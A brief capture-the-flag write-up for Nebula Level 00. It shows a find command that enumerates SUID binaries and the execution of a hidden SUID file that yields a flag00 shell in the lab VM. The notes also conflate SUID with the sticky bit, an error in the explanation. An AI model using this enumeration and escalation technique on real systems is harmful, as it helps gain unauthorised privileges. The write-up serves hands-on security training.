 ## Level 00

 - Something to do with SUID
 - Sticky but is set means user can execute/read/write as root, depending on where the sbit is placed.
 - Found Sticky bit set for flag00 user `find / -perm +4000 -user level00 -type f -print`
 - Found `-rwsr-x--- 1 flag00 level00 7.2K 2011-11-20 21:22 /bin/.../flag00`
 
 
         level00@nebula:~$ /bin/.../flag00
         Congrats, now run getflag to get your flag!
         flag00@nebula:~$ getflag
         You have successfully executed getflag on a target account
         flag00@nebula:~$
 
  - Done
